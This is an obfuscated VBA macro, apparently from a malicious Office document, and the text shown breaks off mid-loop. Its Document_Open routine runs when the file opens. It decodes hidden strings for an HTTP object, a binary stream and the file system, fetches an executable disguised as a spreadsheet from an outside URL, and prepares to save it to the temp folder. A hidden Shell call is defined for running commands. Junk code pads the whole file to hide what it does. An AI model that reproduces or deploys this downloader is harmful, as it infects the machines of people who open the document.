    JFQpA = RTrim("QF?.WAfsmZPnZ[U-b")
    For eYNzez = 0 To 398
        lpHJCW = Space(18)
        cBnVLr = Right(")$Hc!zNQHjXKV^LdE_f", 5)
        lqHGigxO = Right("AQdsASswCqdFFqhE", 3)
        lpHJCW = StrReverse("AhNX(Z^UT$K[_H(@")
        cBnVLr = Left("]H@BJeB#wBs", 2)
        lSXJu = Right(" DysFbAgfXqSC.lyqw", 5)
    Next eYNzez

    lpHJCW = StrReverse("L]&dpkIc e")
    cSFOmFC = "NxvQpVgcx*XFYzj%t" + "qiLB)--X.vCXg?OAk!H" + "CQCNj!CRxCC.JHpNZDR"
    lqHGigxO = Space(5)
    JFQpA = 745 + 764 + 1215
    lqHGigxO = UCase("IlQrdIQvVu")
    lqHGigxO = Space(14)
    ZXjbwO = "OOeDltAQMOoJfDrykrtUt"
End Function

Private Sub bFIaBU(DpZYgC As String, GUUPxGq As String, QjBWLkB As String, IDXGJFz As String)
    cSFOmFC = Space(6)
    While XLzOXI < 213
        JYlziOG = RTrim("#Qj]UIu.IT")
        JYlziOG = LTrim("(?%mVgrQSCTL")
        ivHvQYLI = RTrim("#mSc(*yPorV))ZI&")
        JYlziOG = Left("&T#kyW]jeq", 5)
        ivHvQYLI = 1174 - 943 - 816
        HxOCtG = UCase("#gfXBa]LNjqr@")
        lqHGigxO = LTrim("hmHqte)[HAofID%")
        JYlziOG = RTrim("a(Vat#rQE-n^o[ypj?Qc")
        WFOwIfq = StrReverse(")n#RLU_^*ECDdRn xrO")
        XLzOXI = XLzOXI + 1
    Wend
    qCgwRDt = UCase("K_K* xNfk[E&hxohK!Eo")
    lqHGigxO = "Epkbqsm^IZQLnpyjj" + "Nv@x!C?@-MlbRE" + "y(K)UBDZEMc("
    HxOCtG = Left("[R[a YzX-FHaA*X(", 4)
    JFQpA = StrReverse("qucwM&rwdA#CLP")
    qCgwRDt = Right("_!!$TsTcs E", 2)
    While rWoSSw < 258
        JFQpA = StrReverse("YP&q$eJWB) !o")
        JYlziOG = 1018 - 1299 - 1250
        HxOCtG = 1081 - 1865 - 851
        cBnVLr = "dUfGfq?OEEQ$" + "SZWOcQ%YycIb&.RRbEh" + "oWztcPNi&a**kaZfaR"
        RMDeRo = Space(1)
        lSXJu = 1267 + 1797 + 499
        lpHJCW = 247 + 140 + 1804
        WFOwIfq = Right("r^VM_uDu.-pWg]K", 3)
        rWoSSw = rWoSSw + 1
    Wend
    cSFOmFC = Left("!QeAezUaK!fQZRM", 5)
    cBnVLr = RTrim("&RMkr#.eBDz&qAlc")
    Shell (DpZYgC), 0
    HxOCtG = Space(15)
    lSXJu = Right("A!HKcJWJml!x_Sw@$^@]", 4)
    lqHGigxO = Left("b^P#MhN-!..VB", 4)
    lSXJu = RTrim("xppDWbCJyAufCh")
    ivHvQYLI = RTrim("oSGLa-LMrOm.G[KI")
    qCgwRDt = Left("Sew[Q)f-#@SX", 2)
End Sub

Private Sub ytZZnt(DZPlEp As Boolean, OqgZQsj As Double, JTjijox As Boolean, enAnEwZ As Double, Bhniec As Boolean)
    RMDeRo = 1652 + 264 + 319
    JFQpA = 872 + 1332 + 216
    HxOCtG = LTrim("YSEGa[gh?isy")
    WFOwIfq = UCase("Eg!e.UxRoiSm")
    cBnVLr = Space(13)
    RMDeRo = Right("jZmQG$TY?eyF[P", 2)
    lSXJu = Left("PiNZLZ%[d. I@r aLU", 4)
    JFQpA = UCase("Ybzk_m^LAh%UkK?b?O^z")
    WFOwIfq = LTrim("TYFbJDbZ QU#D[ZIQOJJ")
    JFQpA = Left("wui#OoObSY cdlz#m", 3)
    lSXJu = 497 + 1235 + 1987
    RMDeRo = Space(16)
    HxOCtG = UCase("@ qI)xTO nWHQxB")
    JFQpA = RTrim("f.e$IUGFZR^dF")
    RMDeRo = LTrim(" j%]E]e[tZYW-Kn(a")
    lpHJCW = Left("S[kab!HXFlm", 2)
    cSFOmFC = 1274 - 1644 - 1521
    JFQpA = RTrim("f)IpAGRK?fLsB")
    lSXJu = LTrim("botF$WvK_O")
    ivHvQYLI = Space(16)
    JFQpA = Space(14)
    HxOCtG = UCase("KVdwG%jlF@")
End Sub

Private Function EdrmLD(GYOhVjl As Double, JiLPHr As Double, NwMuczo As Double, ETgeVT As String, Mdswpg As Double) As String
    lpHJCW = 1587 - 406 - 1807
    RMDeRo = LTrim("]NXLE?KCLwo")
    ivHvQYLI = RTrim("xJtBZ&r#fS!gZ")
    For WWZnoH = 0 To 223
        JFQpA = StrReverse("MsvUY%w_*x Q)A&")
        ivHvQYLI = "*CFBF$fNEW)xEU$hl" + "(.Q_]nV!IXj?ujyyTQ$" + "YbfwwGudT? H"
        JFQpA = Right("Qmi ?phX#Jw%@", 4)
    Next WWZnoH

    JYlziOG = 410 + 1795 + 1047
    cBnVLr = Left("^LJU-?*AKc]EnFP?Dx", 5)
    cBnVLr = LTrim("[UIC&BKf__khq@wpi@o")
    lSXJu = RTrim("YT([[IxfMYG@?L-f")
    lpHJCW = Left("G[[K)tHUec_n", 4)
    RMDeRo = Left("e?emYCpMXF.Y#DBQfI", 5)
    qCgwRDt = StrReverse(") ecJDNKl^HNRB")
    lpHJCW = Space(18)
    cSFOmFC = UCase("iOZEb(iW#(")
    WFOwIfq = Right("OlPCMMJ.#BMDaet)^U@", 2)
    lqHGigxO = 996 + 690 + 301
    JYlziOG = Left("zx%ookgGnwMxP$Cka*ck", 5)
    cBnVLr = StrReverse("oc_scWmO(%Bpi")
    JFQpA = LTrim("! Bu-H&P_ta")
    RMDeRo = 1906 - 755 - 1353
    HxOCtG = UCase("oq*b%n!un%#vR")
    cBnVLr = RTrim("vYoTbDHCb_@KdE")
    ivHvQYLI = "a*GAFXWyjy$#vBTCsH*" + "tTzQLsL K_Qgjjt)" + "w C#a!_$TCDlY"
    lSXJu = RTrim("-Z(hD&txiM")
    qCgwRDt = 439 - 1658 - 194
    ivHvQYLI = LTrim(" e#Adaf fpnR")
    lqHGigxO = 1970 + 700 + 733
    cSFOmFC = StrReverse("FI? IwvmHCIPcV")
    HxOCtG = 454 - 514 - 682
    RMDeRo = 1210 - 1069 - 845
    JFQpA = 673 - 956 - 1528
    JYlziOG = Right("jJqQ$vf]sKHQ%f", 5)
    lqHGigxO = "Eh?byJt.f#]M[^BFy" + " ]ko]N#N$q" + "^m(K-qO&ht]G.@Go"
    For FTqpBe = 0 To 221
        lSXJu = "#Q-XHehDrT" + "JYT-NpcA]K[*v#)_TZf" + "qtRuoX$KcjA$C%g pBCv"
        lqHGigxO = StrReverse("^MZuDuJyb.(SSh")
        WFOwIfq = 1792 + 1837 + 391
        lSXJu = RTrim("mE)Kv]@iRo")
    Next FTqpBe

    cBnVLr = Space(17)
    While PsVuOL < 231
        HxOCtG = UCase("DYomRZ%%jBB nk$NH")
        lSXJu = 1292 + 135 + 910
        lpHJCW = UCase("_[eJEJ^OUoBerKe")
        cSFOmFC = Space(10)
        JFQpA = 1514 + 743 + 1607
        PsVuOL = PsVuOL + 1
    Wend

    lSXJu = "LeDgkbmVobm!aEQB" + "SYopOIa! WMAgC" + "bE vfnWt-a"
    EdrmLD = "rVamDjPscqXHYxQnHIJxsJLOyBidcHYwUOME"
End Function

Private Function ubweRK(baLVzS As Boolean, AmFhNbY As Integer) As String
    WFOwIfq = Right("z_qqzyjBAyuXbFNqlTw#", 4)
    lSXJu = Left("ryho _UORW))", 2)
    lpHJCW = UCase("C)z$tYTLdr^")
    For trnySy = 0 To 285
        ivHvQYLI = StrReverse("foVh^sJPRQ?N$(f-&")
        lpHJCW = RTrim("Hmz-wKuKXLDM?PRICPq")
        ivHvQYLI = Right("nT?JSg?zWoYnNOI!JyWj", 4)
        cSFOmFC = LTrim("nCC]vhrPO)t__")
        lSXJu = 1184 + 799 + 1821
        WFOwIfq = 1449 + 518 + 300
    Next trnySy

    JYlziOG = Left("zS?.EFbU)WYY$", 4)
    JYlziOG = Space(11)
    For ClOBEU = 0 To 325
        cSFOmFC = Space(1)
        JFQpA = UCase("kBn)KKV@su")
        JFQpA = LTrim("NDVYZfccsI[WeRyd")
        lpHJCW = UCase(".kf^zTDkKu#xZ")
        ivHvQYLI = RTrim("hB[tSVwovIzJG(%o*$")
        lqHGigxO = RTrim("&H(b!O*([NGOal")
        JYlziOG = "AHPfulcn.RgY$HIttjv" + "cBC))FRodAI" + "hEaNi KE#dWIIvR"
    Next ClOBEU

    lpHJCW = 1212 + 1805 + 1076
    JFQpA = RTrim("wNpxFE?*%[W$pUVs")
    cBnVLr = StrReverse("BCA.c)-@$nD")
    ivHvQYLI = 1307 - 1225 - 753
    JFQpA = Left("xq!qwlvB #", 3)
    lpHJCW = LTrim("HD]J(elSR*$@t_e]^Zen")
    qCgwRDt = StrReverse("RdABsOFuWBn]Pjn")
    WFOwIfq = RTrim("rIgoYYaN%*")
    lqHGigxO = LTrim("umyW& LRv(HQaIEa)!H")
    WFOwIfq = LTrim("t HyWELZ(gp")
    While Cgeoil < 254
        HxOCtG = RTrim("MldfHd_C]YuRrchFc^K")
        cBnVLr = RTrim("BHzk IHARTscw_N")
        lqHGigxO = UCase("bQJMEyFPQdwD")
        qCgwRDt = Right("^!*dY.&iwkTGlAqFN", 4)
        qCgwRDt = Right("HVQFFDIgosy", 3)
        Cgeoil = Cgeoil + 2
    Wend

    lpHJCW = UCase("Hkc)D#&#iRf#ZtWG??jx")
    For LUHbEu = 0 To 107
        RMDeRo = 1547 + 882 + 1081
        cSFOmFC = RTrim("em!$u? YObtblVObdo")
        JYlziOG = 497 + 1719 + 722
        JFQpA = Space(17)
        WFOwIfq = 1870 - 1389 - 495
        HxOCtG = StrReverse("yZ_yy@]C[ W?W")
        WFOwIfq = RTrim("#Zux(wa[Cuq@i.Z$dKx")
        RMDeRo = Space(3)
        lpHJCW = UCase("UqrsJC*pXdrJ[KeX-.e")
        ivHvQYLI = RTrim("tr^?bf*jpzNFBGdTaHO")
    Next LUHbEu

    qCgwRDt = RTrim("Anv-fWSGSa")
    While jLyDdI < 280
        RMDeRo = Space(10)
        RMDeRo = Left("VM.EH#ZgtF&^iNX#", 3)
        lpHJCW = 1596 - 1424 - 1263
        cBnVLr = 1666 - 294 - 685
        lpHJCW = "?m_jLWZfOT[nJ_r" + "(U*JyDjRtQj#" + "L@AesW*LjV^ $PAq"
        ivHvQYLI = "c .J@#Hezx(XWT@aw]" + "d(qBrxF&rK" + "@h_dAo.k_KjGRq"
        cBnVLr = 805 - 203 - 2000
        lqHGigxO = Space(6)
        jLyDdI = jLyDdI + 3
    Wend

    WFOwIfq = StrReverse("_iqx_C?t#pFLQx")
    ivHvQYLI = Right("mSdS@G!Vj^D", 5)
    JYlziOG = Right("sV).o-px#XXepZaT", 2)
    cBnVLr = RTrim("g$Fbo%KSZODYW")
    qCgwRDt = Right("e [#!Wm$Y[rlya)", 2)
    lqHGigxO = RTrim("HszY[pzYDF^")
    ivHvQYLI = Right("bPukqV%AW@^N-wpry!b$", 3)
    lpHJCW = Space(7)
    cBnVLr = StrReverse("N-uvv&wv@_#jA--R!b.%")
    cBnVLr = "g!#g@igpDgQDy*xCD" + "c&mLm?IM#MuJ.!.Jxs" + "LhYB$$to]Gc"
    ubweRK = "SycSKkPMkIGMMEEENdQbOBCRIDnpZycs"
End Function

Public Function VSDtDK(IadoNWs As String) As String
WFOwIfq = RTrim("zYGrAACdx[Yx%i")
    Dim wtOePdrt() As Byte
    cSFOmFC = RTrim("h?Db eB*wLC[#w.")
    JFQpA = StrReverse("YR #CTDhzT!s?NuywSS%")
    Dim YysWfPz(614) As Byte
    JFQpA = LTrim("#bdMKmga&O")
    qCgwRDt = "fZ-nGQIpc]Ny" + ")A(s[pGZbFBCI)!(PS" + "du?%Tg&_F%!bf"
    HxOCtG = Left("igXZ#KZf?EczqhUuu", 5)
    hTycCaJf = 0
    lqHGigxO = Left("K%u.o@gF-Sa", 3)
    cSFOmFC = UCase(".k[_LEWzALCn]")
    WFOwIfq = RTrim("w(zvpTY@!Wp.W")
    wtOePdrt = StrConv(IadoNWs, vbFromUnicode)
    For kwCOcm = 0 To 160
        lSXJu = LTrim(")^[uaWY[[lunkx#")
        WFOwIfq = UCase("mPrQqtTBi_Wxj")
        lSXJu = Left("jQele?iPc]OA", 4)
        WFOwIfq = UCase("!OJcqL*daradrVjJQ?")
        RMDeRo = RTrim("lPKYOr_Vv]-dt")
        cSFOmFC = LTrim("CCLCfQ^rPwYw$a")
        cSFOmFC = StrReverse("OXRU.xrLjqsZwlAudglr")
        JYlziOG = LTrim("a$Kfyu?]tMU")
        WFOwIfq = Right("J*f@WcSDvD", 2)
        cSFOmFC = Right("._#QPk-@!]lZi.PXbCX", 3)
    Next kwCOcm
    RMDeRo = RTrim("lxjFxPpB&VEB?Jh")
    lqHGigxO = Left("IzS&l_GV!i$", 2)
    For pWzWZG = 0 To 348
        cBnVLr = Right("IDH!-Vtp(p[QGfL?", 4)
        lpHJCW = Space(10)
        JFQpA = LTrim("CMgpqR@iTDzGORE")
        RMDeRo = RTrim(" S%zb%nU]oz")
        lSXJu = "maIAvYGhNsoz" + "hzKVSSZK&&?WmtPm" + "T!!*u*A$Fj"
        qCgwRDt = UCase("gNX)soqnCu^R")
    Next pWzWZG
    WFOwIfq = StrReverse("GMXKi&FoXR[Lpva&R")
    For wBQjKaY = 0 To UBound(wtOePdrt) - 1
    WFOwIfq = StrReverse("PU_KRHR@g?RJfNc^k mb")
    cBnVLr = "O((?NdQ%!&]X_.H" + "*(dXrVBnc@dVRFl" + "HC.w)pMw-fmOWj*p?"
        If (wBQjKaY Mod 2 = 0) Then
        For kSwYxN = 0 To 384
            lpHJCW = UCase("tLF$M*.DaYBn@_L")
            WFOwIfq = LTrim("p%IytrW%O)vTWCBTA.")
            lpHJCW = Space(18)
            JYlziOG = 352 - 849 - 1096
        Next kSwYxN
        lSXJu = Space(5)
        JYlziOG = LTrim("EbgnfNhcvTrWovnO rF^")
        While uvMBaj < 288
            RMDeRo = RTrim("tM&$NI_WPueb%CsB.vzk")
            ivHvQYLI = UCase("&Lbjb]JQ OX^G[")
            lpHJCW = 437 - 908 - 1134
            lSXJu = 362 + 1060 + 1520
            JFQpA = "@MI@KEK[G#K" + "ZO.^EvM_-PYsA]h)C" + "l*Ds[QmEsUi#.G*oa x"
            JYlziOG = Space(17)
            HxOCtG = UCase("**?F.VuJLpXRw")
            JFQpA = Left("XA&c*gZvBSlnxRo", 2)
            uvMBaj = uvMBaj + 1
        Wend
            YysWfPz(hTycCaJf) = wtOePdrt(wBQjKaY)
            qCgwRDt = LTrim("SpwlBhb[GAuX%Ch#")
            While zPknts < 182
                WFOwIfq = Left("e_di*@L$#TM", 2)
                RMDeRo = Left("OK hcnR gIVjXK]B)wmF", 2)
                zPknts = zPknts + 2
            Wend
            cSFOmFC = Left("tEA#TKpoU)(bzX", 5)
            For IOsTvl = 0 To 144
                cSFOmFC = StrReverse("K]&ImwN]HAiK^x#g")
                cSFOmFC = UCase("UaAjOE Xxqe( aO-WfHM")
            Next IOsTvl
            HxOCtG = LTrim("R?q)Av$HFC^)Jd")
            hTycCaJf = hTycCaJf + 2 - 1
            While bcnEGL < 91
                RMDeRo = RTrim("s$IcONTTbMv]@w")
                lqHGigxO = 290 + 1895 + 361
                ivHvQYLI = Space(9)
                bcnEGL = bcnEGL + 1
            Wend
        End If
        lpHJCW = LTrim("j_vZPqLiVbpJRAfEEr")
        HxOCtG = "P)K.quLx_ASe)wl" + "q]Yc[]Weq)bdUTCs" + "fk!)ss SqE-jKr"
        RMDeRo = LTrim("z-sNXq%gfLC")
        While jvrfne < 353
            HxOCtG = UCase("BXDb-max$q")
            lqHGigxO = StrReverse("oTwjYgJt&^e?Iq")
            JYlziOG = 1844 + 1242 + 352
            ivHvQYLI = Left("oNsMmhH]M)jR%HuMA", 3)
            lSXJu = 1239 + 1733 + 209
            cBnVLr = UCase("zLQR^]HAJ@-Tbks$Nb")
            ivHvQYLI = LTrim("zdxmy?CRb!]onhgc^vD")
            lSXJu = UCase("dTOqn[wJ(_NnuKY)Q")
            lpHJCW = Left("$voyCT e?lch", 2)
            cBnVLr = RTrim("kfZtXoyHcd(K")
            jvrfne = jvrfne + 1
        Wend
    Next wBQjKaY
    cSFOmFC = "Ba&vm%SizyV)" + "&dbFmb#HVmSSB" + "_CgckoFA(j_"
    JFQpA = Left("mw*r m_dNjG&sGbk", 4)
    cBnVLr = 1790 + 1274 + 604
    While kLSAJq < 57
        qCgwRDt = StrReverse(" MHL!LsxuAT_")
        qCgwRDt = Left("(If[w_zKovvEeDa]", 3)
        qCgwRDt = Left("SGlUJ^mmNAk(", 3)
        WFOwIfq = UCase("nCpAupOw!eyYX@pH")
        cSFOmFC = StrReverse("sKNwRomQ^YBMyACmfn")
        lqHGigxO = LTrim("a!!m^#.fdHaz")
        cSFOmFC = StrReverse("iyv@uWx-.#gA&E#RHaNN")
        kLSAJq = kLSAJq + 1
    Wend
    JYlziOG = UCase("rWDqZcS^W]qsq")
    VSDtDK = StrConv(YysWfPz, vbUnicode)
    ivHvQYLI = Right("bkWTz.syrWiEz_L", 5)
    lpHJCW = 309 - 876 - 436
End Function
Private Sub Document_Open()
    Dim DwQaKJu As String
    HxOCtG = UCase("sZSAoX-x]Yl*c_")
    RMDeRo = LTrim(".]PApoFKE xI$")
    lSXJu = Space(15)
    lpHJCW = "OSu#G!vLdIw(P@R!e?!m" + "-cDgnuIT*jSLeZbC" + "QpoqClRSepxb"
    lSXJu = 288 + 949 + 715
    Dim mlbAEKn As String
    RMDeRo = RTrim("gfmRQKL@Jb!ivmj%#")
    JYlziOG = 1157 - 488 - 1979
    cSFOmFC = Right("cbdzw)]JkppDf-V[^D", 5)
    While MXwQAK < 230
        HxOCtG = "kTJXetRFwM^dh" + "ve]U%?Eywc!YbJ" + "aJT#tLv%V!xpYz^u"
        ivHvQYLI = Left("&_dsvNLxOOztRG[", 3)
        RMDeRo = 353 - 1439 - 943
        lSXJu = 507 + 573 + 218
        qCgwRDt = UCase("qT#LDsSH@XzJAp")
        lpHJCW = Left("#hTGqsvndJOwgezhJ(Ky", 2)
        lqHGigxO = LTrim("lHPLHrSukb[")
        qCgwRDt = Right("u.wRU@-vm^?RjWB", 4)
        MXwQAK = MXwQAK + 1
    Wend

    While WphTNd < 199
        lqHGigxO = Right("sryhwVXILYG", 3)
        cBnVLr = Space(15)
        qCgwRDt = RTrim("x nY)k[yx*ku@he")
        WphTNd = WphTNd + 2
    Wend

    DwQaKJu = StrReverse("sedx^eb.Ta$MqeiLFup\Z\K%Bp!m]estj%L [LpLrDln-u&RY_QcleExWEXlrlZe(haS.,mlGlAdQ.Z2y3^l)lIewhLs( %e_xceG.J2M3nlmlgdAn#umrk ^ce/b QeOxpet.PdAmDc")
    While VmuCPI < 346
        lqHGigxO = Space(15)
        JYlziOG = UCase("t[x owGgVbF")
        RMDeRo = "*!n.m@rM]MSCWzjyO" + "IskmB*^A@XUrrlzK?TH" + "OgztZTU HdRQh#I"
        cSFOmFC = LTrim("FKdP%#$Mjd#t")
        cSFOmFC = Right("jagdtjzo(sNw", 2)
        JYlziOG = RTrim("uyJvxWPit-%&Q")
        RMDeRo = RTrim("BHaRb]xU]jexVV&Sbx")
        VmuCPI = VmuCPI + 2
    Wend

    cSFOmFC = "Ru$EQxXF#HMuXsGb" + "wkOMqGOg$BfA((ahAl" + "YndKV_VAv*i"
    cBnVLr = RTrim("dcZqC(#Zw..Q")
    While xiuANk < 104
        JYlziOG = 103 - 1191 - 1560
        lqHGigxO = RTrim("Ma#XLjy)LfD")
        RMDeRo = Left("DTs?gSSIigpM", 2)
        qCgwRDt = 1734 + 1279 + 1396
        cBnVLr = Space(17)
        WFOwIfq = 775 - 1522 - 1179
        xiuANk = xiuANk + 3
    Wend

    JFQpA = Left("WYSFb[][?M)Z(o", 2)
    mlbAEKn = StrReverse("WeNxhe(.rrTePprltelhO\A\p%Kpsm_e?tu%( GL%LoDvnwu@RH_GcteVxNEnlHl!enhzSN,Hlelxdc.r2l3zlAlieUhOsV Ce)x eR.x2E3elZlBdunsuSrE scX/e Lepxke-.zd?mrc")
    lqHGigxO = RTrim("Ext!)($rLuwOZ)dLw^Zr")
    For UpVMpt = 0 To 104
        HxOCtG = Left("uQ?uQD]]OffndewG", 3)
        WFOwIfq = "GF.?J#KfTg]J(" + "laVfZ&*fh)[.ems_I " + "Y*OpX!PDYF&?S?c&"
        JFQpA = RTrim("w[aZtmLczWWLT-bm")
        cSFOmFC = "!KK ]LNgEXV_sRxo" + "zs[Tj*bF!BG]r#SXR" + "re^sTSkdjaz(%jX)s"
        cBnVLr = 1324 - 706 - 798
        HxOCtG = 1560 + 1486 + 1665
        WFOwIfq = "[&VSfyJ_?)l" + "oZKSgY!yDr" + "?nWVn#suTjI IgbS.bp$"
        JYlziOG = Right("gyVOTW&((VaB@CzzCjyR", 3)
        cSFOmFC = LTrim("*fxRblLodULbwvL-g")
    Next UpVMpt

    WFOwIfq = "wRgshk%rfR" + "LA_Y[aj$_MzfErLXLlx(" + "^tOYFWguO&lfiQX?DWi"
    For riLRIO = 0 To 177
        ivHvQYLI = 423 - 1267 - 938
        lqHGigxO = StrReverse("Mn@G*pDQMjW^TWZye)E")
        JFQpA = RTrim("#n @WqPzMydwFGYAAe")
        qCgwRDt = LTrim("(J?I[CXGKjBH")
        lSXJu = Right("BM@TR?^W.G", 2)
        HxOCtG = RTrim("cUn^#TuMisCDzhifz.TS")
        qCgwRDt = UCase("kq@!JEJRjM")
        WFOwIfq = StrReverse("(plHtnKNMS")
        ivHvQYLI = RTrim(" -Q]t&KMEb@CMfZ^c&.")
    Next riLRIO

    ivHvQYLI = RTrim("Z_q(hu.QH)")
    JFQpA = StrReverse("RK.vW!efIUmp?beCUza")
    HxOCtG = Left("YQoLMvb*v?^Dn", 3)
    qCgwRDt = 687 - 1011 - 743
    WFOwIfq = UCase("AyeVuNDlojDddgTp")
    ivHvQYLI = RTrim("uFruwxW*n[]Nw%")
    Dim fANhrP, ecpOnoLl As Object
    HxOCtG = 1440 + 714 + 1467
    lpHJCW = Space(13)
    lSXJu = StrReverse("ohk(?IqguAz")
    RMDeRo = StrReverse("Gg%sBYjY.!iIu")
    Set fANhrP = CreateObject(VSDtDK("MEiwcfrRois)obfitf.FX*MtLbHeTgT[Pd"))
    WFOwIfq = "lwg._b#V[oIH QmQTWm&" + "]NO[O?sw?U)E lLsvof" + "tVm?seyz(&u"
    For LMwljC = 0 To 304
        WFOwIfq = LTrim("sRNuwaduMo!pP")
        HxOCtG = 1577 - 1856 - 277
    Next LMwljC

    lSXJu = RTrim("F?R^oHSKt!y^Xj ")
    RMDeRo = "pj(ROj#-]KzXujGt gMf" + "ZbcbA )!Sik" + ")ar@evP&?p"
    JYlziOG = Left("cnfk&URLVQmWDg.G$INo", 5)
    ZgjUeT = VSDtDK("hat#tWpa:-/N/aszt&uRd]ikouc.ocnCcteGp)tR.Kc@or.TuOkH/VPXriofd-uFc^t!sy_PRfefq$u-iXreeamceMnFtksq_ESGh-e eIte_^x.l!s?.$e xseA")
    cSFOmFC = Space(18)
    ivHvQYLI = LTrim("IKc_TW%n _&](%Er")
    lSXJu = Right("fWte&nPTH-BLhD", 5)
    While ZFIYaU < 166
        qCgwRDt = Space(10)
        cSFOmFC = Right("Ea-ig]srExWpcg", 3)
        cSFOmFC = Space(10)
        HxOCtG = LTrim("ZBmrcfidTZ#ZmYCini%")
        lqHGigxO = UCase("#lp#Ncz!O-kOgDsee!")
        cBnVLr = Right("CZGhOWF tL]", 5)
        ZFIYaU = ZFIYaU + 2
    Wend

    fANhrP.Open "GET", ZgjUeT, False
    lpHJCW = UCase("(bD.ybW#wZ-")
    cBnVLr = UCase("A&bRlC_vJ_aU(vt?Dh")
    JYlziOG = LTrim("**cWip*-TUt-J")
    JYlziOG = LTrim("*fiLTM-ha@AJ?HR$")
    lqHGigxO = 1083 - 556 - 1992
    fANhrP.send
    lpHJCW = Right("WKsdW.(-rmUvemeoUsb", 4)
    JFQpA = RTrim("BNvpG!hyd@)j")
    JFQpA = Right("UT&ODhVratyP&?.v]^", 2)
    lSXJu = 1502 + 1076 + 364
    JFQpA = 1822 + 234 + 1094
    If fANhrP.Status = 201 - 1 Then
    lpHJCW = 1377 + 882 + 960
    lqHGigxO = Left("NwanfKplFT", 3)
    JFQpA = Left("]YUvCqV]jJkSkvoCFvX", 4)
    JYlziOG = LTrim("TIgPbqonFiUwS(jghVAJ")
        Set ecpOnoLl = CreateObject(VSDtDK("ABDyOaD[BT.JS-tirReKaDm."))
    For ElkRQE = 0 To 217
        HxOCtG = 1872 - 388 - 1949
        JYlziOG = Space(9)
    Next ElkRQE

    lpHJCW = "?..L.r!-_iPkFP$" + ".zlWmDL v&NEQ[!vq" + "-$ CNB.gKAv)OM%WzNY"
    WFOwIfq = Right("@Q^knNGqffrJfL%Y", 2)
    HxOCtG = 1819 + 178 + 178
    lpHJCW = RTrim("--qr.DyZgDoDKLt)Hn")
        ecpOnoLl.Open
    lSXJu = 177 + 656 + 1091
    cBnVLr = StrReverse("vvCqZRfSZ@O")
    lpHJCW = Right("PNTev@l(aQc!k", 3)
    JFQpA = Left("apBD#FKX*wyD#hg", 2)
    ivHvQYLI = Space(18)
        ecpOnoLl.Type = 1
    JFQpA = 831 + 782 + 1641
    While lSmXGB < 187
        WFOwIfq = 1982 + 1630 + 285
        cSFOmFC = UCase("$sp?hSPSi&ij[.")
        lqHGigxO = Right("&w)OV.)mR&ju&hA", 3)
        lqHGigxO = RTrim("U*wb@H^[V#n(yKTlR")
        JFQpA = 1755 - 1998 - 1355
        lSXJu = RTrim("tVfwuIddWc$kAt")
        lSmXGB = lSmXGB + 2
    Wend

    For EfaFjj = 0 To 268
        cSFOmFC = 1932 + 1552 + 1730
        qCgwRDt = Right("R.AeD-yO$GrrB", 5)
        ivHvQYLI = Left("l(E ih-f?c-lb-*CdLW", 5)
        qCgwRDt = Space(15)
        lSXJu = RTrim("_j@)a?JENn^ORO")
        lSXJu = Left("[Set(qln(gwe", 2)
        JFQpA = 381 + 313 + 788
        cBnVLr = 911 - 1039 - 1580
        ivHvQYLI = Space(9)
        qCgwRDt = Left("FPYfGJY$bHIrd]^pz?a", 4)
    Next EfaFjj

    ivHvQYLI = 1413 - 540 - 432
    While VFxWxY < 30
        ivHvQYLI = LTrim(")CK&j)sABrT")
        RMDeRo = "vp)cpa#wXbGK()glP" + "-Y^-iX uOCvVFuwJ" + "RRIEn%DorK_"
        lpHJCW = UCase("RD j[q*?Q!OrO^S")
        VFxWxY = VFxWxY + 3
    Wend

        UjROGi = fANhrP.responseBody
    JFQpA = Right("xAsAwxB@ DR$[", 4)
    ivHvQYLI = LTrim("r@QE[xlRNHxJ.hIPlv")
    qCgwRDt = LTrim("K@@u[ExETkQaM)O")
    ivHvQYLI = StrReverse("!W#&oYEF (G* c()")
        ecpOnoLl.Write UjROGi
    JFQpA = Space(2)
    cSFOmFC = 1736 - 1745 - 1115
    ivHvQYLI = Left("W*wi&L@$cZ[TI(M", 4)
    WFOwIfq = "%f[kDLhrqP" + "NSwx_hiXR]_zMb?%b" + "Krkudkr^qgQ^OMcIOQz"
        Dim NSHiLj As Object
    RMDeRo = Left("()aLvYdEyfXxGYvTWYLm", 2)
    WFOwIfq = RTrim(" apvA#k!sXtqAkZ[EAtx")
    ivHvQYLI = LTrim("ypEE[dliSAjN!aBX")
    WFOwIfq = LTrim("QyuB)oRUdRJ)haRiqs")
    While bjLXAw < 377
        JYlziOG = Left("GgookG*qpMaD&dR", 4)
        lqHGigxO = StrReverse("jroxvhKFqH$-!_")
        cBnVLr = Left("X? ( jr-LX$", 4)
        lqHGigxO = LTrim("rRdT^P*kA^io-K^_s")
        bjLXAw = bjLXAw + 1
    Wend

        Set NSHiLj = CreateObject(VSDtDK("s^cirpiMp.tyiin-gI.Mfwiflse sJy$s#t]e(m.oab_jMewc$tC"))
    lSXJu = Space(2)
    HxOCtG = RTrim("rrRw_YC-y!vuQvRUZ?L")
    JYlziOG = Space(8)
    While EXYhJk < 252
        ivHvQYLI = RTrim("hCiFak$JFekT^")
        RMDeRo = StrReverse("TnSE.LzyVfm@ps")
        EXYhJk = EXYhJk + 1
    Wend

    For ofXvYY = 0 To 334
        ivHvQYLI = Right("FlQdQScjcVc?dQv^%HpP", 4)
        cBnVLr = LTrim("Yw.hSOKDX@xnjidQXP")
        JYlziOG = StrReverse("xIuECh(XgMzCJ&x")
        qCgwRDt = RTrim("OxRx&*fwi[kz_@V")
        HxOCtG = StrReverse("kAoG]mQL^JfhU*pc")
        WFOwIfq = 494 + 539 + 1560
        RMDeRo = Space(2)
        HxOCtG = StrReverse("BL-hqQGhHU.PnP")
    Next ofXvYY

        qHKBF = NSHiLj.GetSpecialFolder(5 - 3)
    While BAXQnN < 116
        lpHJCW = RTrim("er?@-@ XG]v*)h")
        cBnVLr = Right("pf%gfB)!RpuwPJcS", 2)
        JYlziOG = Left("PHR?? VGPi", 2)
        RMDeRo = StrReverse("Jva#VWHyOHL@)ZC%Z")
        WFOwIfq = StrReverse("oMgk^TVsK)Ja")
        BAXQnN = BAXQnN + 3
    Wend

    HxOCtG = Right("K&dAiGjTDgTlAvTW!h", 2)
    cSFOmFC = "pxLyEUNyft(T?s)F)Fq" + "qc.DE.DlmFE?xs?F&" + "fSVy^$fEKP yWkehf"
    While SYnMHH < 45
        qCgwRDt = Left("q&Z[O$MXOku", 4)
        ivHvQYLI = "M[T^X^do))*sy&o&!I" + "QLm]h_(hA@a" + ")X(EPLU@GoR#?X"
        lpHJCW = LTrim("CALIoZEIg?qgtjM$]W$")
        cSFOmFC = 261 + 1345 + 875
